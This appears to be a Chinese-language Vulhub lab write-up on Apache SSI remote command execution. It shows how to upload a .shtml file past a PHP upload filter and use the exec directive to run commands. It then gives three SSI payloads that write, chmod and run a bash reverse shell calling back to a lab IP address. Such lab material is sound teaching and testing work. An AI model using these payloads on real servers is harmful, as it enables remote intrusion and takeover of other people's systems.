

# Apache SSI 远程命令执行漏洞

## 漏洞描述

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

参考链接：

- https://httpd.apache.org/docs/2.4/howto/ssi.html
- https://www.w3.org/Jigsaw/Doc/User/SSI.html

## 环境搭建

Vulhub运行一个支持SSI与CGI的Apache服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/upload.php`，即可看到一个上传表单。

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：


成功上传，然后访问shell.shtml，可见命令已执行，成功查看当前目录：



创建反弹shell，依次上传并访问shell.shtml（一共三次）

```
# 第一次写入webshell文件
<!--#exec cmd="echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1' > /var/www/html/shell.sh"-->
# 第二次修改webshell权限
<!--#exec cmd="chmod +x /var/www/html/shell.sh"-->
# 第三次执行webshell
<!--#exec cmd="/bin/bash /var/www/html/shell.sh"-->
```

成功接收反弹shell


